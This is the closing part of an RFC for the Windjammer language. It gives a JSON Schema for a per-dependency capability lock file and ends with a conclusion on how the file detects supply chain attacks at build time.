### JSON Schema for `.wj-capabilities.lock`

```json
{
  "$schema": "http://json-schema.org/draft-07/schema#",
  "type": "object",
  "required": ["lock_version", "dependencies"],
  "properties": {
    "lock_version": {
      "type": "integer",
      "const": 1
    },
    "application": {
      "type": "object",
      "properties": {
        "verified": {
          "type": "array",
          "items": { "type": "string" }
        }
      }
    },
    "dependencies": {
      "type": "object",
      "patternProperties": {
        "^[a-z0-9-]+$": {
          "type": "object",
          "required": ["version", "declared", "verified", "allowed", "hash"],
          "properties": {
            "version": { "type": "string" },
            "declared": {
              "type": "array",
              "items": { "type": "string" }
            },
            "verified": {
              "type": "array",
              "items": { "type": "string" }
            },
            "allowed": {
              "type": "array",
              "items": { "type": "string" }
            },
            "hash": {
              "type": "string",
              "pattern": "^sha256:[a-f0-9]{64}$"
            },
            "first_seen": {
              "type": "string",
              "format": "date-time"
            },
            "last_updated": {
              "type": "string",
              "format": "date-time"
            },
            "audit_log": {
              "type": "array",
              "items": {
                "type": "object",
                "required": ["date", "action"],
                "properties": {
                  "date": { "type": "string", "format": "date-time" },
                  "action": { "enum": ["initial", "expand", "restrict", "deny"] },
                  "user": { "type": "string" },
                  "reason": { "type": "string" }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

---

## Conclusion

The capability lock file is **essential** for making WJ-SEC-01 (Effect Capabilities) secure against real-world supply chain attacks. Without it, malicious dependencies can piggyback on legitimate permissions.

**Key Innovation:** Windjammer is the first language to lock **security properties** in addition to versions. This makes supply chain attacks detectable at build time instead of post-incident.

**Ergonomics:** Zero ceremony for initial setup (auto-generated), minimal friction for legitimate updates (one command), maximum security (explicit approval required for escalation).

---

*This RFC was created in response to a critical vulnerability identified by Jeffrey Friedman in the original WJ-SEC-01 design. The per-dependency lock file approach fixes the global manifest flaw while maintaining excellent ergonomics.*
